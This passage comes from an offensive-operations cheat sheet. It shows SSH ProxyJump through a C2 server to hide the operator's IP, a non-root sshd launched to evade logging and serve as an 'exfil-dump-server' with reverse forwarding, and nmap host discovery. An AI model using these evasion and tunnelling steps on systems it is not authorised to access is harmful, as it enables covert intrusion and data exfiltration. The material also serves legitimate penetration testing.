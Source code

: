 > We do not execute `ssh` on any computer but our trusted workstation - and neither shall you (ever).

That's where ProxyJump helps: We can 'jump' via the two intermediary servers $C2 and $internal-jumphost (without spawning a shell on those servers). The ssh-connection is end-2-end encrypted between our $local-kali and $target-host and no password or key is exposed to $C2 or $internal-jumphost.

```sh 
## if we want to SSH to $target-host:
kali@local-kali$ ssh -J c2@10.25.237.119,jumpuser@192.168.5.135 target@172.16.2.121

## if we want to SSH to just $internal-jumphost:
kali@local-kali$ ssh -J c2@10.25.237.119 jumpuser@192.168.5.135
```

> We use this as well to hide our IP address when logging into servers. 

<a id="sshd-user"></a>
**2.vii SSHD as user land**

It is possible to start a SSHD server as a non-root user and use this to multiplex or forward TCP connection (without logging and when the systemwide SSHD forbids forwarding/multiplexing) or as a quick exfil-dump-server that runs as non-root:
```sh
# On the server, as non-root user 'joe':
mkdir -p ~/.ssh 2>/dev/null
ssh-keygen -q -N "" -t ed25519 -f sshd_key
cat sshd_key.pub >>~/.ssh/authorized_keys
cat sshd_key
$(command -v sshd) -f /dev/null -o HostKey=$(pwd)/sshd_key -o GatewayPorts=yes -p 31337 # -Dvvv
```
```sh
# On the client, copy the sshd_key from the server. Then login:
# Example: Proxy connection via the server and reverse-forward 31339 to localhost:
ssh -D1080 -R31339:0:31339 -i sshd_key -p 31337 joe@1.2.3.4
# curl -x socks5h://0 ipinfo.io
```

[SSF](https://securesocketfunneling.github.io/ssf/#home) is an alternative way to multiplex TCP over TLS.

---
<a id="network"></a>
## 3. Network
<a id="discover"></a>
**3.i. Discover hosts**

```sh
## ARP discover computers on the _LOCAL_ network only
nmap -n -sn -PR -oG - 192.168.0.1/24
```

```sh
### ICMP discover hosts
nmap -n -sn -PI -oG - 192.168.0.1/24
```
